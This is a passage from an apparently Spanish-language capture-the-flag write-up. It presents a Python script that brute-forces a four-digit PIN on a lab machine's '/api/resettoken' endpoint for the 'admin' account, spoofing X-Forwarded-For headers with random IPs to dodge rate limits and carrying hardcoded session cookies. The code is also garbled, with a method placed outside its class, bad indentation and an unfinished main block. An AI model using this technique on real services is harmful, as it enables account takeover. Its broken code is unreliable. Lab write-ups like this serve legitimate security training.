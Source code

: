 ![wfuzz](https://user-images.githubusercontent.com/69093629/161406518-abad69b3-68ea-4979-9add-cfbaed34b643.png)

De igual manera, esto se podía hacer con un *script* en Python 3.

```python
#!/usr/bin/python3

from pwn import *
from sys import exit
from requests import post
import signal
from random import randrange

burp = {'http': 'http://127.0.0.1:8080'}

def def_handler(sig,frame):
  print("Saliendo...")
  exit(0)
signal.signal(signal.SIGINT, def_handler)

class BruteForce():
  def __init__(self, main_url):
    self.__url = main_url

def pin_code(self):
  p1 = log.progress("Probando PIN")
  p2 = log.progress("IP")

  for pin in range(9999):

    n1 = randrange(256)
    n2 = randrange(256)

    headers = {
      'Cookie': 'XSRF-TOKEN=eyJpdiI6IlFoY3g0b2lTakNWMElZcGpuRnZjZHc9PSIsInZhbHVlIjoiQnUwZk9KS3JDQm5xZUNtamx3YVpSSm8yZVd0NTVQOUZOV3ZxMTFidStCbWJ4NXN4OS9GMXlSbnhEK0xNRWMwSzZTbnBMZVRVR3Vnb0dNUG5Zcm9ScmVTTks1ZTVYVXJWdVh2U05mZDZsQmJ4M3JROEc1Rm8vQlJNVURVTlFGMWgiLCJtYWMiOiI2N2IxNTEzM2Q2MTc1NzliNjU3ZWJmNzVkYjUwZmMyYWQzYzI5NjJiOGUxNmZkNDFkODlmOTJjOTgyYjVlMzMzIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjJOMXFhTnVpRHcvUHU1d3F2NmxDS3c9PSIsInZhbHVlIjoiaFJGVVhNcitUTTFCWFJ2c0FzYlFJQ3ZCR1pEQlM0eEhQSXo0TStjTkI2cEExVUNPcThCRWRWMWxEcnRaQTJFZjU3ak52ZWdQRTdsSzBpYkZhZ3lzY0VrbG5OZHNlUWtrSFU4eEM2bmI2eE94OWQydWpSd0poK3ZXcHpwNXR3ZWEiLCJtYWMiOiI0MWI2YmFhYzIyMjgyMWYxZDYzZjVhNGQzMDYxNjFiOWM1NzU0ZjEyZWRhOWFiZjFmMDg5OTEyM2E0YWQ0MzZiIiwidGFnIjoiIn0%3D',
      'X-Forwarded-For': f'10.10.{n1}.{n2}'
    }

    data_post = {
      'name': 'admin',
      'pin': pin
    }

    p1.status(f"{pin}/9999")
    p2.status(f"10.10.{n1}.{n2}")
    r = post(self.__url+'/api/resettoken', data=data_post, headers=headers)

    if len(r.text) != 5644:
    p1.success(f"Valid -> {pin}")
      break

brutepincode = BruteForce('http://10.10.11.159')

def main():
  brutepincode.pin_code()

if __name__ == '__main__':
```